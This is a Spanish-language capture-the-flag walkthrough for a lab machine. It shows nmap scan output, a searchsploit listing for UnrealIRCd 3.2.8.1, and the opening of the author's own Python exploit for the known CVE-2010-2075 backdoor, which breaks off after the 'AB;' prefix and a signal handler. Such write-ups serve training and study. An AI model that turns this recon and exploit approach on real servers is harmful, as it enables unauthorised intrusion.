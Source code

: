 ```bash
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Apache2 Debian Default Page: It works
6667/tcp open  irc     UnrealIRCd
6697/tcp open  irc     UnrealIRCd
8067/tcp open  irc     UnrealIRCd
MAC Address: 08:00:27:2F:57:1F (Oracle VirtualBox virtual NIC)
Service Info: Host: irc.foonet.com; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.11 seconds
```
De entre los puertos que encontramos abiertos el 22,80 y 6667 son los más interesantes.
# Shell como server
No encontré nada interesante al enumerar el puerto 80 y 22. Así que trate de encontrar algo en el UnrealIRCD(6667).
```bash
searchsploit UnrealIRCd
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                                                                              |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
UnrealIRCd 3.2.8.1 - Backdoor Command Execution (Metasploit)                                                                                                                                                | linux/remote/16922.rb
UnrealIRCd 3.2.8.1 - Local Configuration Stack Overflow                                                                                                                                                     | windows/dos/18011.txt
UnrealIRCd 3.2.8.1 - Remote Downloader/Execute                                                                                                                                                              | linux/remote/13853.pl
UnrealIRCd 3.x - Remote Denial of Service                                                                                                                                                                   | windows/dos/27407.pl
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```
Encontré un posible exploit que podría funcionar para el UnrealIRCD, pero estaba en Metasploit por lo que decidí buscar uno igual en GitHub encontré algunos y no me funcionaban, pero leyéndolos entendí el exploit y trate de realizar uno por mi propia cuenta.
```python3
# CVE: 2010-2075
# Backdoor in UnrealIRCd 3.2.8.1
# Exploit Author: FredBrave

import socket, optparse, sys, signal

#Global Variables
BACKDOOR_PREFIX = 'AB;'



#Functions
def Exiting(sig, frame):
    print("\nExiting the exploit...")
```